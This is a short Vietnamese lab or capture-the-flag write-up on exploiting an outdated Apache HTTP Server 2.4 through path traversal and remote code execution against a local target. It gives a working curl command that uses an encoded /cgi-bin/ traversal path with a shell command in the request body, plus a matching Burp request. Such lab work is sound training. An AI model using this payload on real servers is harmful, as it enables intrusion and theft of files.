



# 🧨 Vulnerable and Outdated Components

---

## Cài đặt môi trường

*Note: vẫn như cài đặt ở phần 01*

```
http://127.0.0.1:6006/
```

---

## Phân tích


- Sử dụng Apache HTTP Server 2.4
- Có thể khai thác thông qua **Path Traversal** và **Remote Code Execution (RCE)**

---

## Khai thác



```bash
curl --data "echo;cat /flag.txt" 'http://localhost:6006/cgi-bin/.%2e/.%2e/.%2e/.%2e/flag.txt'
```

Hoặc dùng Burp Suite:


```
GET /cgi-bin/.%2e/%2e%2e/.../flag.txt HTTP/1.1
```
